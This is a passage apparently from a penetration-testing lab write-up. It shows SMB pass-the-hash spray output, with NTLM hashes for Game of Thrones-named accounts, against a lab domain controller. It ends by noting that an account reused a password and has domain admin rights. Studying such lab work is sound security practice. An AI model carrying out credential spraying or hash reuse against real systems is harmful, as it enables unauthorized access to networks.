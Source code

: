 ```
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\ESSOS$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\arya.stark:4f622f4cd4284a887228940e2ff4e709 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\tywin.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\jaime.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\eddard.stark:d977b98c6c9282c5c478be1d97b237b8 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\catelyn.stark:cba36eccfd9d949c73bc73715364aff5 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\cersei.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\robb.stark:831486ac7f26860c9e2f51ac91e1a07a STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\tyron.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\sansa.stark:b777555c2e2e3716e075cc255b26c14d STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\robert.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_RESTRICTION
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\brandon.stark:84bbaa1c58b7f69d2192560a3f932129 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\joffrey.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\rickon.stark:7978dc8a66d8e480d9a86041f8409560 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\renly.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\hodor:337d2667505c203904bd899c6c95525e STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\stannis.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\jon.snow:b8d76e56e9dac90539aff05e3ccb1755 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\petyer.baelish:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\samwell.tarly:f5db9e027ef824d029262068ac826843 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\lord.varys:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\jeor.mormont:6dccf1c567c56a40e56691a723a49664 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\sql_svc:84a5092f53390ea48d660be52b93b804 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\maester.pycelle:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
```

Ah ha! `localuser` account employed the same password as the one we found in `NORTH` domain, and it has DA rights too! We can also confirm this in Bloodhound:
